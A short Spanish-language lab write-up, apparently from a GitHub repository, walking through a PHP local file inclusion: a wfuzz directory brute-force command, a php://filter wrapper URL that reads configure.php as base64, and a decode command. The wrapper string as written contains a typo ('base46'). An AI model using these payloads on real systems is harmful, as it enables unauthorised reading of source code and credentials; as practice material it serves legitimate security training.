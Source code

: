 # LFI: PHP Wrapper 🔐

La página web que vulneraremos es:

![Web.PNG](./assets/03-Tercero/01-web.PNG)

---

Para encontrar nuevos archivos **php** usaremos `wfuzz`

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://<IP>/FUZZ
```

**Output**

<p align="center">
    <img src="/assets/03-Tercero/02-Fuzz.PNG">
</p>

---

Si colocamos literalmente esto `http://<IP>/configure.php` no nos mostrará el contenido del archivo, por lo cual, usaremos un wrapper para obtener el contenido en **base64** y luego decodearlo. 🔑

* **URL** `http://<IP>/index.php?languaje=php://filter/read=convert.base46-encode/resource=configure`

<p align="center">
    <img src="/assets/03-Tercero/03-Content.PNG">
</p>

---

Ahora decodeamos el contenido con el comando `echo "[Data base64]" | base64 -d; echo`

<p align="center">
    <img src="/assets/03-Tercero/04-php.PNG">
</p>